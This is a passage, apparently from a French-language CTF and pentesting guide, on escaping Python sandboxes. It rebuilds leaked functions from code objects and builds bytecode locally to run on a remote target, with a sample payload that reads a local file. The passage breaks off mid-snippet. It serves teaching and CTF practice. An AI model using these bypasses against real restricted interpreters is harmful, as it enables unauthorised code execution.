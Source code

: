 ### Recréer une fonction divulguée

{% hint style="warning" %}
Dans l'exemple suivant, nous allons prendre toutes les données nécessaires pour recréer la fonction à partir de l'objet de code de fonction directement. Dans un **exemple réel**, toutes les **valeurs** pour exécuter la fonction **`code_type`** sont ce dont **vous aurez besoin de divulguer**.
{% endhint %}
```python
fc = get_flag.__code__
# In a real situation the values like fc.co_argcount are the ones you need to leak
code_obj = code_type(fc.co_argcount, fc.co_kwonlyargcount, fc.co_nlocals, fc.co_stacksize, fc.co_flags, fc.co_code, fc.co_consts, fc.co_names, fc.co_varnames, fc.co_filename, fc.co_name, fc.co_firstlineno, fc.co_lnotab, cellvars=fc.co_cellvars, freevars=fc.co_freevars)

mydict = {}
mydict['__builtins__'] = __builtins__
function_type(code_obj, mydict, None, None, None)("secretcode")
#ThisIsTheFlag
```
### Contourner les défenses

Dans les exemples précédents au début de ce post, vous pouvez voir **comment exécuter n'importe quel code Python en utilisant la fonction `compile`**. C'est intéressant car vous pouvez **exécuter des scripts entiers** avec des boucles et tout en **une seule ligne** (et nous pourrions faire la même chose en utilisant **`exec`**).\
De toute façon, parfois il peut être utile de **créer** un **objet compilé** sur une machine locale et de l'exécuter sur la machine du **CTF** (par exemple parce que nous n'avons pas la fonction `compiled` dans le CTF).

Par exemple, compilons et exécutons manuellement une fonction qui lit _./poc.py_:
```python
#Locally
def read():
    return open("./poc.py",'r').read()

read.__code__.co_code
't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
```

```python
#On Remote
function_type = type(lambda: None)
code_type = type((lambda: None).__code__) #Get <type 'type'>
consts = (None, "./poc.py", 'r')
bytecode = 't\x00\x00d\x01\x00d\x02\x00\x83\x02\x00j\x01\x00\x83\x00\x00S'
names = ('open','read')

# And execute it using eval/exec
eval(code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ()))

#You could also execute it directly
mydict = {}
mydict['__builtins__'] = __builtins__
codeobj = code_type(0, 0, 3, 64, bytecode, consts, names, (), 'noname', '<module>', 1, '', (), ())
function_type(codeobj, mydict, None, None, None)()
```
Si vous ne pouvez pas accéder à `eval` ou `exec`, vous pouvez créer une **fonction appropriée**, mais l'appeler directement échouera généralement avec le message : _constructeur non accessible en mode restreint_. Vous avez donc besoin d'une **fonction qui n'est pas dans l'environnement restreint pour appeler cette fonction.**
```python
#Compile a regular print
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
```
